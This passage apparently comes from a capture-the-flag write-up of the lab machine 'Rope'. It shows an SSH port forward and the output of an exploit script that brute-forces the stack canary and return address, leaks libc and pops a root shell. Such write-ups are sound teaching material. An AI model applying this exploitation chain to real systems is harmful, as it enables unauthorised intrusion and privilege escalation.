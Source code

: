 
Now ssh in with `-L 1337:localhost:1337` will allow me to hit 1337 on my local
box and it will forward to 1337 on Rope.

    
    
    root@kali# ssh -i ~/id_rsa_generated john@10.10.10.148 -L 1337:localhost:1337
    Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-52-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Sat Aug 31 20:56:07 UTC 2019
    
      System load:  0.13               Processes:            172
      Usage of /:   28.3% of 14.70GB   Users logged in:      0
      Memory usage: 9%                 IP address for ens33: 10.10.10.148
      Swap usage:   0%
    
    
    152 packages can be updated.
    72 updates are security updates.
    
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
    
    Last login: Sat Aug 31 20:55:56 2019 from 10.10.14.5
    john@rope:~$
    

Now I can run for the remote target, with the same IP/port (because
127.0.0.1:1337 now points to the SSH tunnel, not a local copy of the server),
just different offsets. It took just under 15 minutes to run, but it results
in a shell:

    
    
    root@kali# python3 rope_root-remote3.py remote
    [*] Starting brute force
    [+] Brute forcing Canary: Finished in 320.63 seconds
    [+] Canary:             0x0d29f2c7dd531f00
    [+] Brute forcing RBP: Finished in 335.70 seconds
    [+] RBP:                0x00007ffe4683ca60
    [+] Brute forcing Return Address: Finished in 238.71 seconds
    [+] Return Address:     0x000055a54dd75562
    [*] Sending exploit to leak libc write address
    [+] Opening connection to 127.0.0.1 on port 1337: Done
    [+] libc write address: 0x00007fea834b9140
    [*] Closed connection to 127.0.0.1 port 1337
    [+] Calculated addresses:
        libc_base:          0x00007fea833a9000
        dup2:               0x00007fea834b99a0
        execve:             0x00007fea8348de30
        binsh:              0x00007fea8355ce9a
    [*] Sending shell exploit
    [+] Opening connection to 127.0.0.1 on port 1337: Done
    [*] Switching to interactive mode
    $ id
    uid=0(root) gid=0(root) groups=0(root)
    
